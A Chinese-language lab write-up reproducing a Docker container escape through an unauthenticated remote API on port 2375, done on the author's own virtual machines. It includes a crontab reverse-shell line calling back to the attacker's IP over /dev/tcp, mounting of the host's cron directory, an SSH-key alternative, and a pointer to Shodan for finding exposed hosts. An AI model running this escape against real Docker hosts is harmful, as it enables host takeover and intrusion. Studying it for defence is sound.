






Docker remote api逃逸复现
docker逃逸第一种方式——remote api未授权访问
环境：
宿主机操作系统：Ubuntu 20.04 LTS 192.168.170.129
执行攻击的主机：Kali，5.9.0-kali1-amd64 192.168.170.128
docker版本：Docker version 20.10.2, build 2291f61
步骤1、开启docker remote api
docker remote api应该是一个提供图形化界面来简化操作的功能，通过将宿主机的docker服务通过socket的方式暴露给外部连接，使得其他主机也可以访问docker服务。
修改配置，重启服务
1 | lzy@zyUb:~$ sudo nano /lib/systemd/system/docker.service |
执行上述命令，在docker.service文件中添加以下红线所标出的内容(-H tcp://0.0.0.0:2375)

查看效果
在另一台虚拟机中查看docker宿主机的2375端口，可以看到相关信息。


步骤2、漏洞测试
创建容器
查看docker宿主机上已有的镜像
1 | ┌──(lzy㉿kaliForZy)-[~] |
然后创建容器。因为最后反弹shell的实现方式是使用crontab计划任务，所以需要将crontab用到的文件所在路径，也就是宿主机的var/spool/cron目录挂载到容器中。
1 | ┌──(lzy㉿kaliForZy)-[~] |
ubuntu的crontab相关文件的路径为var/spool/cron/crontabs/root，但是我自己装的虚拟机在该路径下并不存在root文件。所以在尽进入到容器中后，要切换到相应路径（也可以在创建容器的时候就使用chroot参数），然后创建文件。
1 | root@22b103440b66:/get3cad/crontabs# touch root |
需要注意，创建的root文件默认是644权限，在crontab执行的时候会被认为是不安全模式。所以需要修改权限为600。


1 | root@22b103440b66:/get3cad/crontabs# chmod 600 root |
最后往root文件中写入反弹shell的计划任务。同时，因为sh与bash环境的不同，需要将命令用bash -c包含起来。
1 | root@22b103440b66:/get3cad/crontabs# echo '* * * * * bash -c "bash -i >&/dev/tcp/192.168.170.128/7777 0>&1"' >> /get3cad/crontabs/root |
在攻击者主机中使用nc监听，连接到反弹的shell

除反弹shell之外，在宿主机开启了ssh服务的情况下，还可以通过修改配置文件，放入攻击者公钥的情况下，实现ssh远程登录，也可以达到和上述crontab计划任务反弹shell相同的效果。
其他收获
- 又发现了几个🐂人的博客
- Linux中执行
sudo -i切换到sudo模式，就能够cd到权限不够的路径，这个算是回忆吧 - 发现一个很有意思的docker镜像：busybox，小而精悍，瑞士军刀
- 资源网站：shodan，搜索互联网设备，所以不要轻易将自己的端口暴露在公网。看到这个网站是因为有人没有自己搭环境实现，所以用这个网站搜索现有的开放了远程api的docker环境。从这些博客的尝试结果来看，似乎很多有这一漏洞的docker环境，都被别人植入了挖矿程序。
前前后后花了4 5个小时，踩坑也是踩了蛮多的。网上的相关博客也有很多，除去内容重复的一些后，我觉得比较有参考价值的都放在下面了。